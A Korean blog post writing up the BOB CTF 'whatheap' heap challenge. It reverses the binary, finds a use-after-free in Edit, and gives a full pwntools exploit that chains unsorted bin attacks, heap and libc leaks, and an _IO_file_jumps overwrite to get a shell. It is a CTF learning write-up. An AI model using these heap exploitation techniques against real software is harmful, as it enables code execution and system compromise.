```yaml
---
layout: post
title: BOB CTF - Whatheap Writeup
---
```


[Downoad](http://file.c2w2m2.com/download/whatheap)

### Reversing

먼저 바이너리를 둘러보면, system("/bin/sh")를 실행시켜주는 함수가 있으니 염두해 두고 시작한다.

![menu](https://i.imgur.com/FOwXpeN.png)

다음과 같은 메뉴가 있다. 하나하나 차례대로 살펴보자.

#### Malloc

Malloc함수를 먼저 한줄한줄 뜯어보자.

![Malloc](https://i.imgur.com/Jl25J7o.png)

먼저 처음 for문을 통해서 비어있는 공간을 찾는다. 공간을 찾으면, Size를 입력받고 이 Size가 200 ~ 300 범위에 있는지를 확인한다.

![Malloc-2](https://i.imgur.com/PSKjfHc.png)

그리고 입력받은 Size만큼 malloc을 하고, Data를 넣는데, 이때 받는 Data의 최소 길이는 16byte다. 그 이후 View함수를 출력하여 값을 확인시켜준다.



#### Free

![Free](https://i.imgur.com/pmqoGiS.png)

처음에 LODWORD(heap_context[2 * a1 + 1])을 Check하는데, 이 flag가 Free가 되었는지를 확인하는 flag임을 확인할 수 있다.

만약 Free가 안되었을경우, free를 진행하고, flag를 세팅해준다.



#### Edit

![Edit](https://i.imgur.com/wGwR7Wh.png)

Edit함수에서는 context에 있는 data를 수정할 수 있다.

이부분에서 이 chunk가 free가 되었는지를 체크하지 않아서, 취약점이 발생한다.



#### View

![View](https://i.imgur.com/pNYuvcl.png)

View를 보면 엄청 길지만, 중요한것은 이부분밖에없다. Free에서 봤듯이 단순한 Free가 되었는지를 체크한다.



### Scenario

우리가 할 수 있는것은 단순히 free된 chunk를 수정할 수 있다는 것 밖에 없다.

여기서 우리가 할 수 있는 공격은 unsorted bin attack이 있다. 하지만 free된 chunk를 볼 수 없으므로, Libc leak이 불가능하다.

따라서 House of Orange같은 공격을 바로 진행하는것이 불가능하다. 

그러므로 unsorted bin attack으로 노려야 할곳은 바로 heap_context이다. 이부분에 있는 heap pointer를 덮음으로써, 

main_arena를 자유롭게 수정할 수 있게 된다. 이를 수정함으로써 unsorted bin attack으로 인해서 깨졌던 main_arena를 고칠 수 있고,

libc leak, heap leak을 진행할 수도 있다.  leak을 진행한 후에, main_arena를 Fake _IO_FILE_JUMP로 만들 수 있다. 

그 후에 고친 main_arena로 인해서 unsorted bin attack이 한번 더 진행이 가능하고,

이때 stdout에 있는 _IO_file_Jump를 타겟으로 unsorted bin attack을 진행하면, main_arena의 값이 적히게 된다.

그러면 puts가 불릴때, main_arena의 주소로 뛰게 될것이고, 여기에는 우리가 적은 oneshot의 주소가 있을테니 Shell을 얻을 수 있다.

1. Unsorted bin attack으로 heap_context를 overwrite
2. heap_context를 Edit하면서 heap & libc leak
3. leak후에 main_arena를 정상으로 고치고, 뒷부분엔 oneshot의 주소를 적음
4. 한번 더 Unsorted bin attack으로 stdout의 _IO_FILE_JUMP를 overwrite
5. Get shell



### Exploit

```python
from pwn import *
    
def Malloc(size, data):
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send(str(size))
    p.recvuntil(":> ")
    p.send(data)

def Free(idx):
    p.recvuntil(":> ")
    p.send('2')
    p.recvuntil(":> ")
    p.send(str(idx))

def Edit(idx, data):
    p.recvuntil(":> ")
    p.send('3')
    p.recvuntil(":> ")
    p.send(str(idx))
    p.recvuntil(":> ")
    p.send(data)

def View(idx):
    p.recvuntil(":> ")
    p.send('4')
    p.recvuntil(":> ")
    p.send(str(idx))

if __name__ == '__main__':
    p = process("./whatheap")
    elf = ELF("./prob")
    libc = elf.libc

    Malloc(256, "A"*16)
    Malloc(256, "B"*16)
    Free(0)

    Edit(0, p64(0) + p64(0x602070 - 0x10))
    Malloc(256, "C"*16)

    View(1)
    p.recvuntil("--+\n")
    p.recvuntil("|")
    leak2 = p.recvuntil("|")[:-1]
    leak2 = leak2[125:]
    leak2 = u64(leak2.ljust(8,'\x00'))
    log.info("Leak2 : 0x%x" % leak2)
    pause()
    Edit(1, "A"*32)

    View(1)
    p.recvuntil("A"*32)
    leak = u64(p.recv(6).ljust(8,'\x00'))
    libcbase = leak - 0x3c4b78 - 0x10

    log.info("Leak : 0x%x" % leak)
    log.info("Libcbase : 0x%x" % libcbase)
    pause()
    Edit(1, p64(leak2) + p64(0) + p64(leak-0x10)*2 + p64(0x00000000040097e)*4)

    IO_file_jump = libcbase + 0x3C56F8
    print "0x%x" % IO_file_jump
    Malloc(256, "D"*16)
    Malloc(256, "E"*16)
    Free(2)
    Edit(2, p64(leak) + p64(IO_file_jump - 0x10))
    
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send('256')
    p.interactive()


```

![shell](https://i.imgur.com/LOSmaI2.png)

참고로 이문제는 system32.kr에 올라와있는 pwnable문제를 매우 조금 수정한것이다..(grin)
